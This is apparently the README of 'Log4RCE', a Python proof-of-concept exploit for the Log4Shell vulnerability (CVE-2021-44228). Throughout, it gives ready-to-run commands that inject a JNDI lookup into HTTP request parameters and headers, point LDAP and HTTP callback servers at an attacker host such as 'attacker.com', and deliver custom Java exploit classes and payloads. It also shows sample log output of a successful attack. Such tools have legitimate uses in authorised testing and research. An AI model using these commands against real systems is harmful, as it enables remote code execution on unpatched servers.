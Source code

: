 # Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http -X POST --url "http://localhost:8080/" --data "address=###"
```

```
INFO:HTTP:Running on local port 1337
INFO:HTTP:Remote target is http://127.0.0.1:1337/LinuxExploit.class
INFO:LDAP:Running on local port 1387
INFO:Log4J:Sending payload to http://localhost:8080/
INFO:LDAP:Query from ('127.0.0.1', 42554)
INFO:HTTP:Request from ('127.0.0.1', 55328) to /LinuxExploit.class
INFO:Log4J:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```bash
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automated HTTP request attack on a target URL.

You can perform a GET request as follows:

```bash
python3 log4rce.py http --url "http://www.vuln.com:1234/?vuln_param=###&param=123" --headers="P1=123&P2=123"
```

You can perform a POST request as follows:

```bash
python3 log4rce.py http -X POST --url "http://www.vuln.com:1234/" --data "vuln_param=###&param=123" --headers="P1=123&P2=123"
```

The previous will inject the JNDI tag into `###`.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```bash
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```bash
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac -source 1.7 -target 1.7 /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.

